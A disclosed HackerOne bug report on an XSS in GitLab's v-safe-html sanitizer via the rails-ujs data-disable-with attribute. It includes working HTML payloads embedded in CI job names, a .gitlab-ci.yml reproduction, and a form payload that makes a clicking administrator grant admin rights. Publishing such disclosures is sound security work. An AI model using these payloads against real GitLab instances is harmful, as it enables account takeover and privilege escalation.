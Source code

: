 # XSS: `v-safe-html` is not safe enough

## Report Details
- **Report ID**: 1579645
- **URL**: https://hackerone.com/reports/1579645
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-05-24T10:29:44.956Z
- **Disclosed**: 2022-11-16T01:08:16.508Z

## Reporter
- **Username**: yvvdwf
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
`v-safe-html` directive uses Dompurify [to remove](https://gitlab.com/gitlab-org/gitlab-ui/-/blob/9f1bcb1f7392d4d6d072f10197c2aab2c29c3287/src/directives/safe_html/constants.js#L3)  `data-remote', 'data-url', 'data-type', 'data-method'` attributes from HTML tags. Rails-js relies on another attribute, [`data-disable-with`](https://github.com/rails/rails/blob/v6.1.4.7/actionview/app/assets/javascripts/rails-ujs.coffee#L10) to [show a HTML content](https://github.com/rails/rails/blob/v6.1.4.7/actionview/app/assets/javascripts/rails-ujs/features/disable.coffee#L41) when an user clicks on a disabled link.

For example, the following text will bypass the sanitization and popup an alert when an user clicks on the link (which is a transparent topmost layer since the sanitization allows also `style` and `class` attributes):

```html
<a class="fixed-top fixed-bottom text-hide gl-font-size-42 cursor-default" href=# data-disable-with="<img src=x onerror=alert(document.domain)>">'
```

An exploitation can be done via [jobs' error messages](https://gitlab.com/gitlab-org/gitlab/-/blob/38af35c2a4aa666f914484d3f119b813651a2041/app/assets/javascripts/jobs/components/job_app.vue#L215) which contain [CI job names](https://gitlab.com/gitlab-org/gitlab/-/blob/7f86b5b78c107f7124b54e1f797099741765b3d2/app/serializers/build_details_entity.rb#L154) which are provided by users.



### Steps to reproduce

1. In an existing project or create a new one, add `.gitlab.ci` file with the following content:

```yaml
'1. XSS when no CSP<a class="fixed-top fixed-bottom text-hide gl-font-size-42 cursor-default" href=# data-disable-with="<img src=x onerror=alert(document.domain)>">':
  stage: build
  script: echo "hi"

'2. Admin escalation when having CSP<form action=/api/v4/users/5212593?_method=PUT&admin=true method=post><input type=submit class="fixed-top fixed-bottom text-hide cursor-default" style="font-size:10000px" value=Submit>':
  stage: build
  script: echo "hi"

trigger-xss:
  stage: test
  script: echo "hi"
  dependencies:
    - '1. XSS when no CSP<a class="fixed-top fixed-bottom text-hide gl-font-size-42 cursor-default" href=# data-disable-with="<img src=x onerror=alert(document.domain)>">'
    - '2. Admin escalation when having CSP<form action=/api/v4/users/5212593?_method=PUT&admin=true method=post><input type=submit class="fixed-top fixed-bottom text-hide cursor-default" style="font-size:10000px" value=Submit>'
```

2. Go to `CI/CD`/`Jobs` tab and wait for the CI jobs finished

3. If you are testing on a local instance without CSP protection, click on detail of the job `1. XSS when no CSP<a class="fixed-top fixed-bottom text-hide gl-font-size-42 cursor-default" href=# data-disable-with="<img src=x onerror=alert(document.domain)>">`, then click on the trash button on the right literal bar to `Erase job logs and artifacts`.

3. Go back to the job list, click on `trigger-xss` link to view the detail of this job. Then click on `Retry` button on the right literal bar to retry the job.

4. An error message appears: `This job could not start because it could not retrieve the needed artifacts: 1. XSS when no CSP`. Click anywher to trigger the alert

Note: on gitlab.com or an instance having CSP protection (with `strict-dynamic` value of `script-src`), the inline script, such as `onerror` or the [`<iframe srcdoc='<script src=https://gitlab.com/yvvdwf/data/-/jobs/552156057/artifacts/raw/alert.js></script>'></iframe>`](https://gitlab.com/gitlab-org/gitlab/-/issues/233473), will be prevented to trigger. In such a case, we may use `<form>` tag to trigger arbitrary API requests on behalf of the user, for example, this allows escalate to admin permission when administrator *click anywhere* `2. Admin escalation when having CSP<form action=/api/v4/users/5212593?_method=PUT&admin=true method=post><input type=submit class="fixed-top fixed-bottom text-hide cursor-default" style="font-size:10000px" value=Submit>`

### Impact

XSS allow attackers to perform arbitrary actions on behalf of victims at client side.

### Examples

https://gitlab.com/yvvdwf/xss-in-job-dependencies/-/jobs/2498306483

https://gitlab.com/yvvdwf/xss-in-job-dependencies/-/jobs/2498287882

### Output of checks

This bug happens on GitLab.com

## Impact

XSS allow attackers to perform arbitrary actions on behalf of victims at client side.

## Attachments
No attachments
